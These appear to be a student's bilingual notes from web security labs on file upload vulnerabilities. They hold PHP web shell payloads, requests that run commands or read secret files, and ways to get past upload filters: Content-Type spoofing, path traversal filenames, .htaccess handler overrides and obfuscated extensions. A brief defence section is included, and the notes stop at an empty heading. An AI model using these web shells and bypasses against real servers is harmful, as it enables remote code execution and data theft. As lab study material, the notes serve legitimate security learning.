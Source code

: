 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## 防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php <br>

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent"> <br>
**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp <br>
**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
